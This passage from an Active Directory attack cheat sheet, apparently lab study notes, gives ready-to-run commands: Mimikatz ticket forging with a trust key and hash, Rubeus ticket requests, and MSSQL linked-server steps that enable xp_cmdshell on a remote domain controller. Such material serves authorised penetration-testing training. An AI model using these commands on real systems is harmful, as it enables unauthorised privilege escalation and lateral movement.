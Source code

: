 ### Abusing inter-forest trust

Since a forest is a security boundary, we can only access domain services that have been shared with the domain we have compromised (our source domain). Use e.g. BloodHound to look for users that have an account (with the same username) in both forests and try password re-use. Additionally, we can use PowerView to hunt for foreign group memberships between forests.

```
Get-DomainForeignGroupMember -domain corp2.com 
```

In some cases, it is possible that SID filtering (the protection causing the above), is _disabled_ between forests. If you run `Get-DomainTrust` and you see the `TREAT_AS_EXTERNAL` property, this is the case! In this case, you can abuse the forest trust like a domain trust, as described above. Note that you still can _NOT_ forge a ticket for any SID between 500 and 1000 though, so you can’t become DA (not even indirectly through group inheritance). In this case, look for groups that grant e.g. local admin on the domain controller or similar non-domain privileges. For more information, refer to [this blog post](https://dirkjanm.io/active-directory-forest-trusts-part-one-how-does-sid-filtering-work/).

To impersonate a user from our source domain to access services in a foreign domain, we can do the following. Extract inter-forest trust key as in ‘Using domain trust key’ above.

Use Mimikatz to generate a TGT for the target domain using the trust key:

```
Kerberos::golden /user:Administrator /service:krbtgt /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /target:eurocorp.local /rc4:fe8884bf222153ca57468996c9b348e9 /ticket:eucorp-tgt.kirbi 
```

Then, use Rubeus to ask a TGS for e.g. the `CIFS` service on the target DC using this TGT.

```
.\Rubeus.exe asktgs /ticket:c:\ad\tools\eucorp-tgt.kirbi /service:CIFS/eurocorp-dc.eurocorp.local /dc:eurocorp-dc.eurocorp.local /ptt 
```

Now we can use the CIFS service on the target forest’s DC as the DA of our source domain (again, as long as this trust was configured to exist).

### Abusing MSSQL databases for lateral movement

MSSQL databases can be linked, such that if you compromise one you can execute queries (or even commands!) on others in the context of a specific user (`sa` maybe? 😙). This can even work across forests! If we have SQL execution, we can use the following commands to enumerate database links.

```
-- Find linked servers
EXEC sp_linkedservers

-- Run SQL query on linked server
select mylogin from openquery("dc01", 'select SYSTEM_USER as mylogin')

-- Enable 'xp_cmdshell' on remote server and execute commands
EXEC ('sp_configure ''show advanced options'', 1; reconfigure') AT DC01
EXEC ('sp_configure ''xp_cmdshell'', 1; reconfigure') AT DC01
EXEC ('xp_cmdshell ''whoami'' ') AT DC01 
```
